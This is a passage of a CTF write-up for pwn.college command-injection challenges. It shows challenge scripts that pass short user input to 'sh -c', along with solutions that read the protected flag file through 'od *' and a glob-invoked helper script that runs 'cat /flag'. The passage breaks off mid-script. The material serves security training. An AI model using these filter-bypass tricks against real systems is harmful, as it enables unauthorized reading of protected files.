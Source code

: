 ### Vulnerability
- Command Injection

### Solution
```sh
/challenge/run
od *
```



## Essense of Economy
```sh
#!/usr/bin/env -iS /opt/pwn.college/sh

# Inspired by Orange Tsai

PATH=/usr/bin

WORKDIR=$(mktemp -p $(mktemp -d /tmp/XXXXXXX) -d XXXXXXXX) || exit 1
cd $WORKDIR

# some cleanup
HOME=$WORKDIR
unset OLDPWD

while [ "$INPUT" != "exit" ]
do
	read -r INPUT
	[ "${#INPUT}" -gt 5 ] && exit 2
	sh -c "$INPUT" < /dev/null 2>/dev/null
done
```

### Vulnerability
- Command Injection

### Solution
```sh
echo cat /flag > /tmp/a
chmod +x /tmp/a
/challenge/run
/t*/a
```

## Mirage of Minimalism
```sh
#!/usr/bin/env -iS /opt/pwn.college/sh

# Inspired by Orange Tsai

PATH=/usr/bin

WORKDIR=$(mktemp -p $(mktemp -d /tmp/XXXXXXX) -d XXXXXXXX) || exit 1
cd $WORKDIR

# some cleanup
HOME=$WORKDIR
unset OLDPWD

while [ "$INPUT" != "exit" ]
do
	read -r INPUT
```